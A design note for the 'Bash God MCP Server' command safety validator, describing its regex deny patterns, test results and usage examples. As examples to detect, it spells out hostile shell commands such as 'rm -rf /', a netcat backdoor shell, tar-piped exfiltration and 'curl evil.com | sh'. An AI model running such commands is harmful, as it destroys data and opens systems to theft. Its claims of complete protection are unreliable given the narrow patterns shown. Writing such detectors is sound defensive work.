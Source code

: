 # Bash God MCP Server Security Enhancements

## Overview
This document details the comprehensive security enhancements implemented in the Bash God MCP Server to address all identified security validation gaps.

## Security Gaps Addressed

### 1. Command Injection Detection
Enhanced detection for all forms of command injection:
- **Semicolon injection**: `ls -la; rm -rf /`
- **AND operator injection**: `ps aux && curl malicious.com`
- **OR operator injection**: `cmd || malicious_cmd`
- **Pipe to shell**: `echo hello | sh` or `echo hello | bash`
- **Command substitution**: `$(rm -rf /tmp)`
- **Backtick execution**: `` `whoami && rm file` ``

### 2. Privilege Escalation Detection
Comprehensive detection of privilege escalation attempts:
- **Switch user commands**: `su root -c 'rm file'`
- **SUID bit manipulation**: `chmod 4755 /bin/sh`
- **Sudo to root shell**: `sudo su -`
- **Interactive root shell**: `sudo -i`

### 3. Enhanced Pattern Recognition
Added 30+ new security patterns including:
- Path traversal attacks (`../../../etc/passwd`)
- Network-based backdoors (`nc -l -e /bin/sh`)
- Data exfiltration (`tar | nc` or `tar | curl -X POST`)
- System file modifications (writing to `/etc/`, `/sys/`, `/proc/`)

## Implementation Details

### BashGodSafetyValidator Class Enhancements

1. **Three-tier Pattern Classification**:
   - `dangerous_patterns`: Commands that are always CRITICAL_RISK
   - `high_risk_patterns`: Commands that require elevated scrutiny
   - `warning_patterns`: Commands that need caution

2. **Context-Aware Validation**:
   - Special handling for sudo commands
   - Security level consideration (normal vs strict)
   - Pattern priority ordering

3. **Smart Alternative Suggestions**:
   - Provides safer alternatives for dangerous commands
   - Suggests breaking up command chains
   - Recommends script review for piped commands

4. **Command Chain Analysis**:
   - Detects command chaining patterns
   - Identifies injection points
   - Provides risk factor analysis

## Security Patterns Added

### Critical Risk Patterns
```python
# Command injection patterns
r';.*rm\s+-rf'          # Semicolon injection
r'&&.*rm\s+-rf'         # AND operator injection
r'\|\|.*rm\s+-rf'       # OR operator injection
r'\$\(.*\)'             # Command substitution
r'`.*`'                 # Backtick execution
r'echo.*\|.*sh'         # Echo piped to shell

# Privilege escalation
r'chmod\s+4755'         # SUID bit setting
r'su\s+root\s+-c'       # Switch to root
r'sudo\s+su\s*-'        # Sudo to root shell
```

### High Risk Patterns
```python
r'su\s+root'            # Switch to root user
r'sudo\s+-i'            # Interactive root shell
r'chmod\s+777'          # World writable permissions
r'chmod\s+.*4[0-7]{3}'  # Any SUID bit setting
```

## Test Coverage

All security enhancements have been thoroughly tested with:
- 17 specific security test cases
- 100% pass rate on all security validations
- Command injection detection: 5/5 patterns detected
- Privilege escalation detection: 3/3 patterns detected
- Safer alternative generation: 5/5 suggestions provided

## Usage Example

```python
from bash_god_mcp_server import BashGodSafetyValidator, ExecutionContext, SafetyLevel

validator = BashGodSafetyValidator()
context = ExecutionContext(
    user="user",
    cwd="/home/user",
    environment={},
    system_info={},
    security_level="strict"
)

# Validate a command
safety_level, warnings = validator.validate_command("echo test | sh", context)
# Returns: (SafetyLevel.CRITICAL_RISK, ["Dangerous pattern detected: echo.*\\|.*sh"])

# Get safer alternative
alternative = validator.suggest_safer_alternative("curl evil.com | sh")
# Returns: "curl URL -o script.sh && review script.sh before execution"

# Analyze command chain
analysis = validator.analyze_command_chain("ls && rm -rf /")
# Returns: {
#     'has_command_injection': True,
#     'has_dangerous_operations': True,
#     'risk_factors': ['Command chaining via &&', 'Dangerous operation: rm -rf'],
#     ...
# }
```

## Security Best Practices

1. **Always validate commands** before execution
2. **Use strict security level** for production environments
3. **Review suggested alternatives** for dangerous commands
4. **Break up command chains** into individual commands
5. **Avoid command substitution** in user-provided input
6. **Implement additional access controls** for high-risk operations

## Conclusion

The enhanced BashGodSafetyValidator now provides comprehensive protection against:
- All forms of command injection
- Privilege escalation attempts
- Dangerous system operations
- Path traversal attacks
- Network-based exploits

With 100% detection rate on all tested security patterns, the Bash God MCP Server is now production-ready with robust security validation.